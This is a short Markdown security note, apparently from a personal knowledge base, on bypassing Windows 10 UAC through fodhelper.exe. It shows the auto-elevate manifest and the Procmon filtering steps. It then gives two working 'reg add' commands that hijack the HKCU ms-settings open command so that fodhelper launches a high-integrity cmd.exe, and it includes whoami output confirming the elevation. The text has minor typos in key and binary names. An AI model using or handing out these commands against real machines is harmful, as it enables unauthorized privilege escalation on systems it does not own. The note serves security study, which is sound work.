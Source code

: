 ```yaml
---
title: UAC Bypass
date: M02-02-2023
author: i4
---
```


## Example bypass
- Only works on Windows 10 1709

### fodhelper.exe

**Path**:  `C:\Windows\System32\fodhelper.exe``

[Sigcheck][sigcheck] dumps the manifest of `fodhelper.exe` which shows that it always runs auto-elevated:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Copyright (c) Microsoft Corporation -->
<assembly
   xmlns="urn:schemas-microsoft-com:asm.v1"
   xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
   manifestVersion="1.0">
 <assemblyIdentity type="win32" publicKeyToken="6595b64144ccf1df" name="Microsoft.Windows.FodHelper" version="5.1.0.0" processorArchitecture="x86"/>
 <description>Features On Demand Helper UI</description>
 <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
  <security>
      <requestedPrivileges>
          <requestedExecutionLevel
            level="requireAdministrator"
          />
      </requestedPrivileges>
  </security>
 </trustInfo>
 <asmv3:application>
    <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <dpiAware>true</dpiAware>
        <autoElevate>true</autoElevate>
    </asmv3:windowsSettings>
 </asmv3:application>
</assembly>
```


[Procmon][Procmon] is used to see what registry entries it loads at the start.
- Set the following filters:
	- `Image Path is C:\Windows\System32\fodhelper.exe then Include`
	- `Result is NAME NOT FOUND then Include`

Since a normal user can not alter the `HKLM` and the `HKCR` hive, we can narrow down further:
- Filter:
	- `PATH begins with HKCU then Include`

We see that `fodhelper.exe` tries to execute the operation `ReqQueryValue` on the key `HKCU:\Software\Classes\ms-settings\URL Protocol` but fails because it does not exist yet. If we filter on `ms-settings\Shell\Open\Command` we find out that it has a fallback in `HKCR\ms-setings\Shell\Open\Command` which has the following value:

_HKCR\\ms-settings\\Shell\\Open\\Command_
```Registry
C:\>reg query HKCR\ms-settings\shell\open\command

HKEY_CLASSES_ROOT\ms-settings\shell\open\command
    DelegateExecute    REG_SZ    {4ed3a719-cea8-4bd9-910d-e252f997afc2}
```

`{4ed3a719-cea8-4bd9-910d-e252f997afc2}` refers to a [COM object](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model) which gets started with inherited permissions.

Since this example doesn't hijack the flow with a com object, we can add the missing registry path & an empty `DelegateExecute` key.
```cmd
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f

```

Starting `foodhelper.exe` again we should now get a `cmd.exe` with high integrity:
```cmd
C:\Windows\System32> whoami /groups
...
Mandatory Label\High Mandatory Level
```

## Tools
-[Sigcheck]:  <https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck>
-[Procmon]:  <https://learn.microsoft.com/en-us/sysinternals/downloads/procmon>

## Related notes
- [[UAC]]
- [[Process Integrity]]